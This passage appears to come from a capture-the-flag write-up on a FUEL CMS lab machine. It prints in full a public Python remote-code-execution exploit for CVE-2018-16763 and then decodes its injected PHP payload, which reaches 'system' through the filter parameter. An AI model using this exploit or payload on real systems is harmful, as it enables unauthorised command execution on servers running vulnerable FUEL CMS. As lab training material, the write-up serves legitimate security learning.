 Looks like there is an exploit available for the version of the FUEL CMS that we are attacking! Let's dump the contents of the exploit as it is a Python script and fairly short.

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

I won't pretend to be able to understand exactly how this is working but we can search for the CVE number (CVE-2018-16763) and try to read through the details of the CVE [^cve]. The CVE documentation refers to a GitHub issue for FUEL CMS addressing the vulnerability [^github].

The GitHub issue details that the /fuel/pages/select URL with the filter parameter can lead to code evaluation. If we decode the data after the `filter=` with a value of `xxxx = 'cmd:which nc'`, we can try to understand the payload.

```python
>>> xxxx = "cmd:which nc"
>>> payload = "%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
>>> urllib.unquote(payload)
"'+pi(print($a='system'))+$a('cmd:which nc')+'"
```


[^cve]: <https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-16763>
[^reverse]: <https://github.com/swisskyrepo/PayloadsAllTheThings>
[^github]: <https://github.com/daylightstudio/FUEL-CMS/issues/478>
[^jared]: <https://unicornsec.com/home/tryhackme-ignite>
